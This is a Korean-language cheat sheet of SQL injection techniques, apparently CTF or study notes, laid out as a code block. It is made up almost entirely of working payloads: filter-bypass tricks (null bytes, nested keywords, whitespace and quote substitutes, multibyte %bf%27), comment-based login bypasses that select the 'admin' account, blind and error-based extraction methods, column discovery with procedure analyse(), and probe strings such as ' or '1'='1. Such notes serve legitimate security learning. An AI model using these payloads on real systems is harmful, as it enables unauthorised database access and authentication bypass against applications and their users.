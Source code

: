 ```sql
* 맨 앞에 %00을 삽입 시 뒤의 문자가 필터링 되지 않음
--------------------------------------------
* replace, replaceAll
* 'admin' 필터링 시 'adadminmin' 등으로 우회 가능
--------------------------------------------
* numeric character filtering
* 0 -> '!'='@'
* 1 -> '!'='!' 등으로 true, false 및 수식을 이용하여 숫자를 표현 가능
--------------------------------------------
* White Space Filtering (%20
* %20 -> %0a %0b %0c %0d %09
--------------------------------------------
* Single Quote Filtering (%27)
* Single Quote 안에서 Double quote를 쓰면 해결되는 경우도 있음
* 특수한 조건에서 %bf%27 로 Multibyte를 만들어 필터링을 우회할 수도 있음 (하지만 거의 없는 경우)
* '\' 백슬래시 문자가 필터링 되어있지 않은 경우 다음과 같은 상황에서 우회 가능
	* ex. select test1 from test where id='\' and pw=' or 1#
	*  parameter : id=\&pw=%20or%201%23
--------------------------------------------
* 주석 
* #, --, ;%00, /* */
--------------------------------------------
* 주석을 이용한 SQL Injection
* '#'의 주석 범위는 1 line이다. 1 line을 나누는 기준은 %0a로 나뉘기 때문에 아래 예제와 같은 SQL Injection을 수행할 수 있다.
	* select test1 from test where id='abc'# and pw='%0a or id='admin'%23
* /* */
	* select test1 from test where id='abc'/* and pw=''*/ or id='admin'%23
--------------------------------------------
* Blind SQL Injection 시 sub query의 결과로 여러 row가 나오는데 where 문을 쓸 수 없을 때
* max(column_name), min(column_name), group_concat(column_name)
--------------------------------------------
* 테이블명, 컬럼명을 알아내야 할 때
* select test1 from test where id='admin' and pw='1234' procedure analyse();
* limit 2,1 등과 함께 사용하여 필요한 컬럼 명을 한 줄로 뽑아낼 수 있음
--------------------------------------------
* Error Based SQL Injection 할 때
* 0xfffffffffffff*0xfffffffffffff 를 하면 Integer 범위 초과 에러가 발생한다
--------------------------------------------
* MultiByte Character SQL Injection
* 'test1' 필드의 캐릭터가 아스키코드가 아닌 멀티바이트 캐릭터(ex. UTF-32 등)일 때는 다음과 같은 방법으로 SQL Injection을 수행할 수 있다.
* substr(hex(test1),1,1)=0x41
	* MultiByte Character인지 알아보기 위한 방법으로는 '>'와 '<'를 이용하여 범위를 찾아나갈때 문자의 범위가 예를들어 20과 21사이로 나온다면(아스키 문자의 범위가 소숫점으로 나오는 경우는 없다) 멀티바이트 캐릭터라고 추측할 수 있다.
--------------------------------------------
* SQL Injection이 먹히는지 알아볼 때
* '(싱글쿼터)를 썼을 때 에러가 나는지
* ' and '1'='1    ,     ' and '1'='2  를 썼을 때 앞에건 정상적으로 출력되고 뒤에건 출력이 안나는지
* ' or '1'='1 을 썼을 때 정상적으로 출력되는 지
* 숫자로 이루어진 컬럼 (ex. idx=23001) 을 idx=23002-1 로 넣었을 때 정상적으로 출력 되는 지
* '||' 를 썼을 때 정상적으로 출력되는 지 ( Restrict. DB가 Oracle이고 자료형이 Varchar로 선언되어 있을 때 )
* 주석을 쓸때는 #(%23), -- (--%20), %0a
--------------------------------------------
```
